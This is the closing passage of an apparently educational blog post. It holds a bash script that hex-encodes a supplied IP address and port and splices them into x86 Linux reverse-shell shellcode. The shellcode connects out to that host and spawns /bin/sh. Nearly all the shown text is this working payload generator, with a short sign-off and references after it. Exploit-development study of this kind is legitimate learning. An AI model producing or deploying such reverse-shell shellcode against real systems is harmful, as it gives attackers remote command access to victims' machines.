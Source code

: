 ```sh
then
	ip_hex3=$(echo $ip_hex3 | sed 's/^/0/')
fi

if [ $(echo $ip_hex4 | wc -c) == 2 ]
then
	ip_hex4=$(echo $ip_hex4 | sed 's/^/0/')
fi

echo '[+] The HEX translation of the ip address inserted:'
echo $ip_hex4 $ip_hex3 $ip_hex2 $ip_hex1
# port
port_hex=$(echo "obase=16; $2" | bc | sed 's/.\{2\}$/:&/')
port_hex1=$(echo $port_hex | awk  -F ':' '{print$2}')
port_hex2=$(echo $port_hex | awk  -F ':' '{print$1}')

if [ $(echo $port_hex1 | wc -c) == 2 ]
then
	port_hex1=$(echo $port_hex1 | sed 's/^/0/')
fi

if [ $(echo $port_hex2 | wc -c) == 2 ]
then
	port_hex2=$(echo $port_hex2 | sed 's/^/0/')
fi

echo '[+] The Port translation to hex:'
echo $port_hex1
echo $port_hex2

echo -e '[+] The crafted shellcode:'


shellcode="\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xdb\xf7\xe3\xb0\x66\xb3\x03\x68\x$ip_hex1\x$ip_hex2\x$ip_hex3\x$ip_hex4\x66\x68\x$port_hex2\x$port_hex1\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x5b\x31\xc0\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xdb\xf7\xe3\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"





echo $shellcode
```
And that's a wrap!

Thank you very much for sticking around!

## References

* connect syscall - <https://linux.die.net/man/3/connect>
* Previous blogpost - <https://naglinagli.github.io/shellbind/>
